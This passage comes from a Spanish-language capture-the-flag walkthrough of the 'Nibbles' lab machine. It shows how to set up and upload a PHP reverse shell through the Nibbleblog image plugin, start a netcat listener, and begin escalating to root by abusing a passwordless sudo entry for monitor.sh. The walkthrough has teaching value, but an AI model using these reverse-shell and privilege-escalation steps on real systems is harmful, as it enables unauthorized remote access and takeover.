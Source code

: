 ```bash
locate php-reverse-shell
cp /usr/share/webshells/php/php-reverse-shell.php .
```

Procedemos a modificar la reverse shell con nuestra `IP` y `puerto` que vamos a utilizar para generar la conexión con nuestra máquina.

```bash
vim php-reverse-shell.php
#MODIFICAR LINEAS 49 Y 50
$ip = '10.10.14.6';  // CHANGE THIS         
$port = 4564;       // CHANGE THIS
```

Subimos el archivo en el plugin `My image`.

Procedemos a activar un listener.
  
```bash
nc -lnvp 4564
```

Consultamos el recurso en la siguiente URL.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

<p style="text-align: center;">
<img src="/assets/images/nibbles/11-page9.png"> 
</p>

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando los permisos a nivel de `sudo`.

```bash
nibbler@Nibbles:/$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Se identifica que es posible ejecutar el comando `/home/nibbler/personal/stuff/monitor.sh` con privilegios, así que vamos a ir a la ruta `/home/nibbler` y creamos las carpetas `personal` y `stuff`, debido a que no existen actualmente.

```bash
cd /home/nibbler/
mkdir -p personal/stuff
cd !$
```
